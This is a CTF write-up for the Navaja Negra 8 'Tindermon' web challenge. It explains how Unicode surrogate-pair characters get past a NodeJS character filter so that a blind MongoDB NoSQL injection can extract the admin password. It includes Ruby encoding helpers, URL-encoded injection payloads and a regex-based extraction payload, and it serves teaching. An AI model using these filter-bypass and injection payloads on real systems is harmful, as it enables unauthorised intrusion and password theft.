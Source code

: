 ## Tindermon (Web)
This weekend, Navaja Negra 8 CTF started, organized by ka0labs.org. This web challenge has the following statement:

Get the admin password! There is a WAF and it is NodeJS... Easy peasy!
[http://tindermon.ka0labs.org](http://tindermon.ka0labs.org/)

### Intro
This challenge presents us a classic NodeJS + Express app. Source code of index is:
```html
<html>
<-- WebSite Created by the admin pikachu --!>
<title>Welcome to our Pokemon-Tinder!!!!!</title>
<body  style="background: pink">
<center><h1>List of Users Registered in Tindermon</h1>
<br><br><img  src="[/avatar/magikarp](http://tindermon.ka0labs.org/avatar/magikarp)"  height="480"  width="290">
<img  src="[/avatar/bulbasaur](http://tindermon.ka0labs.org/avatar/bulbasaur)"  height="480"  width="290">
<img  src="[/avatar/diglet](http://tindermon.ka0labs.org/avatar/diglet)"  height="480"  width="290">
</center></body>
</html>
```

Two interesting things here:

- The admin username is pikachu
- There's a route /avatar/```username``` which, when visited, redirects us to /img/``ìd``.jpg where id seems to be the user id.

```
GET /avatar/magikarp HTTP/1.0

-> 302 Found, Location: /imgs/1.jpg
```

#### Not that easy, there's a "WAF"
Testing some characters shows us that there's some kind of check for the following chars:
```" ' . (space)```
Why those characters and not others like > or <? Because (not-so-obviously) what they are trying to avoid is a NoSQL Injection, probably on a MongoDB database.

So logic seems to be:

- Express router process the request.
- The controller searchs for the URL parameter, which is everything following /avatar/ to the next "/" and is intended to be a username.
- Looks for the username on MongoDB, if exists, returns a 302 redirection to users image path.

Easy right? We are in front of a NoSQL Injection challenge like many others, but this time we need to figure out how to bypass NodeJS checks.

Well, at first, some tricks come to my mind, such as Orange Tsai's 2017 Black Hat presentation about  NodeJS inconsistency on parsing Full-Width Characters: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf but it doesn't seems to work on this case.

#### Reading a bit about how JavaScript Unicode decoding standards works.

This article gives us some keys https://mathiasbynens.be/notes/javascript-unicode. As the article says, for backwards compatibility with ES5 and older standards,  unicodes are divided in groups of two, each one of 2 bytes, those are called "surrogate pairs".

So, for example, the emoji 💩 becomes ```\uD83D\uDCA9```. How this split is done? The answer is, again, in the same blog: https://mathiasbynens.be/notes/javascript-encoding
```javascript
H = Math.floor((C - 0x10000) / 0x400) + 0xD800  
L = (C - 0x10000) % 0x400 + 0xDC00
```

Cool, at this point a hint is released, the hint are emojis, it seems clear that we need some Unicode trick to bypass NodeJS checks. But, do not forget, those unicodes needs to make sense for MongoDB, which is the final endpoint of our string.

#### Error, error, error, error, victory!
After a lot of testing and a key of my man X-C3LL, seems that MongoDB is reading the least significant byte of each surrogate pair, well, let's test if this is true using ```"||"1"=="1``` payload,  but remember, we can't just use ```"```, so we need to figure out a unicode which contains 0x22 and 0x7C as their least significant bytes of each surrogate pair.

```ruby
# This receives a string of two characters, and looks for a unicode hex who's surrogate pairs least significant byte, match each character hex representation.
def uni(find)
  for i in 0...0xFFFFF
    h = (((i - 0x10000) / 0x400) + 0xD800).to_i.to_s(16)[-2..-1].to_i(16).chr
    l = ((i - 0x10000) % 0x400 + 0xDC00).to_i.to_s(16)[-2..-1].to_i(16).chr

    if(h == find[0] && l == find[1])
      return URI.encode [i.to_i].pack('U')
    end
  end
end
```
A return without the URI encode for the string ```"|```, the unicode ```\u{1887c}```  when divided in surrogate pairs:
```
H: 0xD822
L: 0xDC7C
```
Their least significant byte's match with ```"```and ```|``` respectively.

So we got some restrictions to bypass using this trick, those restrictions are the characters forbidden by backend controller, a bit of code helps me to create strings based on this trick for the restricted characters:

```ruby
# Takes pairs of characters where a forbidden char is and
# converts it to unicode representation.
def convert_forbidden(string)
  final_string = ""
  skip = false
  for i in 0..string.length-1 do
      if !skip then
        if $waf.include? string[i] then
          res = uni(string[i] + string[i+1])
          final_string += res
          skip = true
        else
          final_string += URI.encode string[i]
        end
      else
        skip = false
      end
  end

  return final_string.gsub("/","%2F").gsub("[","%5B").gsub("]","%5D").gsub("&","%26")
end
```

For the string ```"||"1=="1``` this returns: ```%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1```

Testing on the live application, it works!! ```/avatar/%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1``` returns 1.jpg, the same process but using "1"=="0" instead of "1" =="1" returns us 404.jpg. So we can confirm the injection.

#### Exploiting Blind NoSQL Injection 
Now we need to write a bit more code to exfiltrate data, byte by byte. After some digging and refresh of MongoDB basics, it ended up on this payload:

```pikachu"&&(this.password.match(/^_string_/))=="_string_"||"1"=="0```

This will return true only if the string starts with the _string_ value. Look at the script to get more details if you are unfamiliar with Blind techniques.

#### Run and gimme the flag!
Running the final script starts exfiltrating us the password for the user pikachu, character by character, but we know that flag starts with ```nn8ed{```, so some work is done:
```
Found! nn8ed{T
Found! nn8ed{Th
Found! nn8ed{Thi
... (lot of time)
Found! nn8ed{This.Old.Challenge.With.Unic0de}
```

So there's the flag. Super funny challenge, I learned a lot about how NodeJS 8 works with Unicode and how inconsistencies at encoding treatment can compromise a system. 

Congratz to ka0labs.org for this great challenge!
